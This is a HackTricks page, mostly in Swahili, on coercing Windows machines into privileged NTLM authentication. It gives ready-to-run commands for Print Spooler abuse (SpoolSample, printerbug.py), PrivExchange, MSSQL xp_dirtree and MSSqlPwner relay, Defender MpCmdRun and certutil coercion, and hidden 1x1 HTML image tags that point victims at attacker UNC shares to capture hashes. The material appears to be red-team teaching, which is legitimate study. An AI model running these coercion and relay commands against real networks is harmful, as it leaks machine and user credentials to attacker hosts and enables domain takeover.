 # Force NTLM Privileged Authentication

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) ni **mkusanyiko** wa **vichocheo vya uthibitishaji wa mbali** vilivyotengenezwa kwa C# kwa kutumia MIDL compiler ili kuepuka utegemezi wa wahusika wengine.

## Spooler Service Abuse

Ikiwa huduma ya _**Print Spooler**_ ime **wezeshwa,** unaweza kutumia baadhi ya akidi za AD zilizojulikana ili **kuomba** kwa seva ya uchapishaji ya Domain Controller **sasisho** kuhusu kazi mpya za uchapishaji na umwambie tu **atumie arifa kwa mfumo fulani**.\
Kumbuka wakati printer inatuma arifa kwa mifumo isiyo ya kawaida, inahitaji **kujiandikisha dhidi** ya **mfumo** huo. Hivyo, mshambuliaji anaweza kufanya huduma ya _**Print Spooler**_ kujiandikisha dhidi ya mfumo wowote, na huduma hiyo itatumia **akaunti ya kompyuta** katika uthibitishaji huu.

### Finding Windows Servers on the domain

Kwa kutumia PowerShell, pata orodha ya masanduku ya Windows. Seva mara nyingi ni kipaumbele, hivyo hebu tuzingatie hapo:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Kutafuta huduma za Spooler zinazot listening

Kwa kutumia @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket) iliyobadilishwa kidogo, angalia kama Huduma ya Spooler inasikiliza:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Unaweza pia kutumia rpcdump.py kwenye Linux na kutafuta Protokali ya MS-RPRN
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Omba huduma ithibitishe dhidi ya mwenyeji yeyote

Unaweza kukusanya [**SpoolSample kutoka hapa**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
au tumia [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) au [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) ikiwa uko kwenye Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Kuunganisha na Delegation Isiyo na Kikomo

Ikiwa mshambuliaji tayari ameathiri kompyuta yenye [Unconstrained Delegation](unconstrained-delegation.md), mshambuliaji anaweza **kufanya printer ithibitishe dhidi ya kompyuta hii**. Kwa sababu ya delegation isiyo na kikomo, **TGT** ya **akaunti ya kompyuta ya printer** itakuwa **imehifadhiwa katika** **kumbukumbu** ya kompyuta yenye delegation isiyo na kikomo. Kwa kuwa mshambuliaji tayari ameathiri mwenyeji huyu, ataweza **kurejesha tiketi hii** na kuifanya itumike ([Pass the Ticket](pass-the-ticket.md)).

## RCP Kulazimisha uthibitisho

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

Shambulio la `PrivExchange` ni matokeo ya kasoro iliyopatikana katika **kipengele cha `PushSubscription` cha Exchange Server**. Kipengele hiki kinaruhusu server ya Exchange kulazimishwa na mtumiaji yeyote wa kikoa mwenye sanduku la barua kuthibitisha kwa mwenyeji yeyote aliyepewa na mteja kupitia HTTP.

Kwa kawaida, **huduma ya Exchange inafanya kazi kama SYSTEM** na inapewa mamlaka kupita kiasi (hasa, ina **WriteDacl privileges kwenye kikoa kabla ya Sasisho la Jumla la 2019**). Kasoro hii inaweza kutumika kuruhusu **kuhamasisha taarifa kwa LDAP na kisha kutoa hifadhidata ya NTDS ya kikoa**. Katika hali ambapo kuhamasisha kwa LDAP haiwezekani, kasoro hii bado inaweza kutumika kuhamasisha na kuthibitisha kwa wenyeji wengine ndani ya kikoa. Ufanisi wa shambulio hili unatoa ufikiaji wa haraka kwa Msimamizi wa Kikoa kwa akaunti yoyote ya mtumiaji wa kikoa iliyoidhinishwa.

## Ndani ya Windows

Ikiwa tayari uko ndani ya mashine ya Windows unaweza kulazimisha Windows kuungana na seva kwa kutumia akaunti zenye mamlaka na:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Au tumia mbinu hii nyingine: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Inawezekana kutumia certutil.exe lolbin (binary iliyosainiwa na Microsoft) kulazimisha uthibitishaji wa NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

If you know the **email address** of the user that logs inside a machine you want to compromise, you could just send him an **email with a 1x1 image** such as
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
na wakati anafungua, atajaribu kuthibitisha.

### MitM

Ikiwa unaweza kufanya shambulio la MitM kwa kompyuta na kuingiza HTML kwenye ukurasa atakaouona unaweza kujaribu kuingiza picha kama ifuatavyo kwenye ukurasa:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Ikiwa unaweza kukamata [NTLMv1 challenges soma hapa jinsi ya kuzivunja](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;umbuka kwamba ili kuvunja NTLMv1 unahitaji kuweka changamoto ya Responder kuwa "1122334455667788"_

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
